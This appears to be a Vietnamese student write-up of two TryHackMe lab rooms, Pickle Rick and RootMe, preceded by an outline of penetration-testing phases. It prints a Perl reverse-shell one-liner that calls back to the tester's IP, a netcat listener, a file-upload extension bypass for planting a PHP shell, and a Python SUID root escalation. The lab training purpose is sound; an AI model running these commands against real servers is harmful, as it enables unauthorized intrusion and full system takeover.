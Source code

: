 # Bài 1: Tấn công, xâm nhập và kiểm soát server Pickle Rick – TryHackMe (Phần 1)
## Quy trình penetration testing 
Quy trình penetration testing có thể được chia thành các bước như sau:

![image](https://github.com/HoangVietAnh09/Others/assets/111860567/c92e41c3-3881-45fc-98d2-1607f15be0c2)

### Performing reconnaissance (Thu thập thông tin từ bên ngoài)
pentester trong vai một người dùng ngoài mạng bình thường có mục tiêu là thu thập càng nhiều thông tin về server nạn nhân càng tốt bằng cách sử dụng các công cụ như nmap, dirsearch, gobuster, v.v. Nhằm mục đích trả lời các câu hỏi sau:

* IP của server nạn nhân là bao nhiêu?
* Máy nạn nhân có đang online hay không?
* Server nạn nhân có bao nhiêu dịch vụ đang chạy?
* Version của mỗi dịch vụ là bao nhiêu?
* Server nạn nhân có bao nhiêu ports đang mở và ports nào đang bị tường lửa chặn (filtered)?
* Server nạn nhân đang chạy hệ điều hành (OS) nào?
* Nếu server nạn nhân có chạy một website
  * Có xác định được tên nền tảng web và version hay không?
  * Front end code có chứa thông tin nhạy cảm hay không?
  * Có tìm được file robot.txt, hay những thư mục hoặc file ẩn trên web hay không?
  * Có tìm được trang đăng nhập web hay không? v.v.
* Nếu server có chạy SMB hoặc FTP
  * Có tìm được fileshare hay không?
  * Account anonymous có mở hay không?
  * Có tìm và đọc được file lưu trữ bên trong hay không?
* v.v
### Identifying vulnerabilities (Xác định lỗ hổng có thể xâm nhập)
Sau khi đã thu thập được thông tin ở B1, pentester sẽ bắt đầu phân tích, chọn lọc và tiến hành xâm nhập thử nghiệm để tìm ra những cách xâm nhập hệ thống nạn nhân tối ưu nhất ví dụ như:

* Default login (Mật khẩu đăng nhập mặc định)
* SQL injection/noSQL injection
* Local File Inclusion (LFI)
* File/command injection
* CVE vulnerabilities
* Bruteforce/dictionary attack
* v.v

### Exploiting vulnerabilities (Tiến hành xâm nhập)
Tùy theo lỗi bảo mật được khai thác mà pentester có thể ngay lập tức lấy được giao diện dòng lệnh dùng để điều khiển máy nạn nhân hoặc chỉ có thể xâm nhập vào admin dashboard của nền tảng đang được sử dụng.
### Privileges escalation (Nâng quyền quản trị)
 Sau khi xâm nhập thành công vào server nạn nhân, bạn thường chỉ có được quyền quản trị của một người dùng bình thường với quyền hạn hạn chế. Nhiệm vụ tiếp theo pentester cần làm đó là tìm cách để nâng quyền quản trị của mình lên cấp cao nhất (quyền root) để nắm toàn quyền kiểm soát server nạn nhân.
 ### Gathering information (Thu thập thông tin nội mạng)
 Sau khi thành công có được quyền root của server nạn nhân, nếu hợp đồng với khách hàng yêu cầu bạn pentest luôn toàn bộ hệ thống mạng nội bộ, bạn sẽ tiếp tục sử dụng server mình vừa chiếm được để thu thập thông tin nội mạng để tìm hướng tấn công tiếp. 
 ### Creating Pivot point (Tạo hệ thống tấn công nội mạng)
 Sau khi có được thông tin nội mạng cần thiết, pentester sẽ sử dụng hệ thống mà mình đang kiểm soát để cài đặt các phần mềm phục vụ cho việc tấn công nội mạng. 
### Cleaning up (Dọn dẹp)
Sau khi pentest xong, pentest sẽ gỡ bỏ những phần mềm đã cài đặt trên máy nạn nhân.
### Reporting (Báo cáo)
Pentester viết báo cáo mô tả lại quá trình pentest, lỗ hổng đã khai thác và đánh giá mức độ nghiêm trọng, đồng thời đề ra giải pháp khắc phục lỗ hổng.

Quy trình trên chỉ là một quy trình chung và khá tối giản. Thực tế khi bạn nhận hợp đồng pentest, điều khoản sẽ phải ghi rõ giới hạn mà bạn được pentest nên quy trình chi tiết có thể thay đổi. 
## Thực hành pentest phòng Pickle Rick – TryHackMe
Thử scan bằng nmap thì thấy có port 80 chạy apache và port 22 chạy OpenSSH.
Chạy thử cổng 80 thì đây là một trang web. Xem thử source code ta thấy được username của acc nào đấy. Dùng dirsearch để tìm các hidden directories thì thấy có file robots.
Vào đấy ta thấy được dòng . Có vẻ đây là mật khẩu.Thêm nữa chúng ta tìm thấy trang login tại login.php. Thử login với username và password vừa tìm được thì thành công.
Mình thư test lệnh ```ls -la``` thì thành công. Mình thử đọc file flag đầu tiên bằng ```cat Sup3rS3cretPickl3Ingred.txt``` thì mình thấy lệnh ```cat``` đã bị disable. Nhưng ngoài ```cat``` mình vẫn có thể dùng ```strings``` để đọc file.

Mình thử về thư mục gốc rồi vào home rồi đến rick thì thấy part 2. Vì ngày sau khi chúng ta execute lệnh thì chúng ta sẽ được chuyển về ```/var/www/html``` nên mình cần execute lệnh bằng 1 lệnh
```cd /; cd /home/rick; strings 'second ingredients'```

Để lấy được flag 3 mình sẽ tạo 1 TCP reverse shell để thực thi lệnh phía webserver từ máy mình. Câu lệnh như sau:

```
perl -e 'use Socket;$i="10.4.88.80";$p=8888;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

với $i là địa chỉ máy mình và $p là port mở.

Để mở port mình dùng lệnh; ```nc -nlvp 8888```

Với flag:
* -n: Mang ý nghĩa chúng ta sẽ chỉ dùng IPv4 address, không dùng domain
* -l: Chế độ lắng nghe
* -v: Verbose – Cho biết quá trình lắng nghe đang diễn ra thế nào
* -p: Chỉ định port để lắng nghe

Sau khi kết nối với webserver mình xem thử có các lệnh nào mình có thể thực hiện bằng ```sudo -l``` thì thấy mình có all quyền mà không cần mật khẩu.
update quyền lên root bằng ```sudo su``` rồi vào /root mình lấy được part 3.

*Các bước làm trong file procession.txt*

# Bài 3: Tấn công, xâm nhập và kiểm soát server RootMe – TryHackMe 
Đầu tiên mình scan tất cả cả các port: ```nmap -vv -T4 -p- 10.10.94.30```
Mình thấy có 2 port đang mở là 80 và 22

![image](https://github.com/HoangVietAnh09/Others/assets/111860567/f5db9b78-7b0d-4052-9b9d-c74052f94e33)

Sau khi xác định có 2 port đang mở mình sẽ tìm thêm thông tin về service và OS: ```nmap -vv -T4 -p22,80 -O 10.10.94.30```

![image](https://github.com/HoangVietAnh09/Others/assets/111860567/7a2a3725-9d1f-4b78-af3f-7f6a41b942ef)

![image](https://github.com/HoangVietAnh09/Others/assets/111860567/83b399f4-67d4-48e6-89ff-d4b80c5de277)

Mình dùng dirsearch để liệt kê các hidden direcories và tìm được 2 đường dẫn đến /panel và /uploads

![image](https://github.com/HoangVietAnh09/Others/assets/111860567/6e484abc-cc49-4c9d-909e-ccf97f26e307)

Vào trang /panel thì có form upload file. Bằng wappalyzer mình biết được trang web dùng PHP. Mình thử tạo một shell có phần mở rộng là .php thì bị từ chối
Ngoài phần mở rộng .php ra thì còn nhiều mở rộng khác như .phtml, .php2, php3, php5,..v..v Mình thử với .php5 thì thành công upload. Sau khi upload thì các file sẽ được lưu trong /uploads. Mình lên github tìm một reverse shell viết bằng PHP rồi upload lên .

Mình mở một port ở máy để lắng nghe nghe:```nc -nlvp 8888```

Sau khi kết nối với webserver thành công mình vào dir /var/www để xem tâi nguyên của web thì thấy file uer.txt và giải dược task 2

![image](https://github.com/HoangVietAnh09/Others/assets/111860567/8ca7c681-23b6-49f0-86ba-6605ceac30b3)

Mình dùng lênh: ```find / -perm -u=s -type f 2>/dev/null``` để xem phần mềm nào có quyền SUID thì mình thấy có python

Mình lên mạng script python để leo thang lên root qua SUID của python

```./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```

Thay relative path bằng absolute path chứa python

```/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```

vậy là mình đã priv esca lên root mình vào root và đọc file root.txt solve task 3

*Bác bước mình ghi trong file RootMe.*


 




